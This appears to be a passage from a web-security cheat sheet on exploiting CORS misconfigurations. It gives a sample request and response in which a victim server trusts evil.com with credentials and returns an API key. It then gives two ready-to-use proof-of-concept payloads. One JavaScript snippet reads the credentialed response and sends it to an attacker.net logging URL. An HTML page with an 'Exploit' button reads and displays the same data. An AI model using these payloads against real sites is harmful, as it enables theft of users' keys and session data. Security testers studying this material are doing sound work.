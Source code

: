 ```powershell
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: https://evil.com
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

#### Proof of concept

This PoC requires that the respective JS script is hosted at `evil.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://victim.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText; 
};
```

or 

```html
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://victim.example.com/endpoint", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
```
